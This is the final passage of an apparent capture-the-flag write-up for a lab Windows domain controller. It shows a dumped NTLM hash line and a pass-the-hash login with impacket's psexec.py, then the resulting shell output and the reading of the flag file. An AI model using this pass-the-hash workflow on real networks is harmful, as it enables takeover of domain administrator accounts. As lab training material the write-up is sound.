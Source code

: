    htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    <SNIP>

## PTH

We can then use the [Path the hash](http://blog.gentilkiwi.com/tag/pass-the-hash)
technique with
[impacket's psexec.py](https://github.com/SecureAuthCorp/impacket/) to login on
the Domain Controller as administrator and get the flag.

    :::text
    python psexec.py htb.local/Administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
    Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

    [*] Requesting shares on 10.10.10.161.....
    [*] Found writable share ADMIN$
    [*] Uploading file LgnQUJxD.exe
    [*] Opening SVCManager on 10.10.10.161.....
    [*] Creating service evKq on 10.10.10.161.....
    [*] Starting service evKq.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Mirosoft Corporation. All rights reserved.

    C:\Windows\system32>cd ..

    C:\Windows>cd ..

    C:\>cd Users

    C:\Users>cd Administrator

    C:\Users\Administrator>cd Desktop

    C:\Users\Administrator\Desktop>type root.txt
    f04815<redacted>

# Wrapping up

What a journey. This box was classified as easy but probably needed a medium
classification. WinRM is so *finicky*. The root part was interesting as it
allowed us to play with Bloodhound and ntlmrelayx which doesn't happen a lot
outside of client environments.


